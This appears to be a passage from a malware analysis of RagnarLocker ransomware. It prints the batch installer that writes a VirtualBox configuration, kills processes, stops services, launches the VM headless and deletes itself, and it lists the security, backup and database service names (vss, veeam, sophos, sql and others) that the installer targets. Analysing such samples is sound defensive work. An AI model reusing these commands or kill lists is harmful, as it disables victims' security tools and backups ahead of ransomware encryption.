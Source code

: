 ```bat
REM Read the content and add to the XML used for the configuration of the virtual host
type vm1.txt > micro.xml
echo ^<CPU count="1"^> > pn.txt
type pn.txt >> micro.xml
type vm2.txt >> micro.xml
type sf.txt >> micro.xml
type vm3.txt >> micro.xml

REM Delete the temp files
del /q /f sf.txt
REM Stop the security process
tasklist > t.txt
findstr /G:p.txt t.txt > k.txt
FOR /F %%p IN (k.txt) DO taskkill /IM %%p /F
FOR /F %%s IN (s.txt) DO sc stop %%s
REM Delete the temp files
del /q /f *.txt
del /q /f va.exe
REM VBOX_USER_HOME is where the xml configuration of the old Virtualbox version is stored and the location VBoxSVC log file
set VBOX_USER_HOME=%programpath%
REM Start the VM without vrdp mode
"%binpath%\VBoxHeadless.exe" --startvm micro -v off
REM delete this bash script
del /q /f install.bat
```

<h4>This stop also all the sensible services and process on the system, this is the same list (on the both files) that content on the RagnarLocker and probably from the build of the source code as export list when this builds the ransomware by an argument on the compiler.</h4>

```
s.txt
=======
vss
sql
memtas
mepocs
sophos
veeam
backup
pulseway
logme
logmein
connectwise
splashtop
mysql
Dfs

p.txt
========
sql
mysql
veeam
oracle
ocssd
dbsnmp
synctime
agntsvc
isqlplussvc
xfssvccon
mydesktopservice
ocautoupds
encsvc
```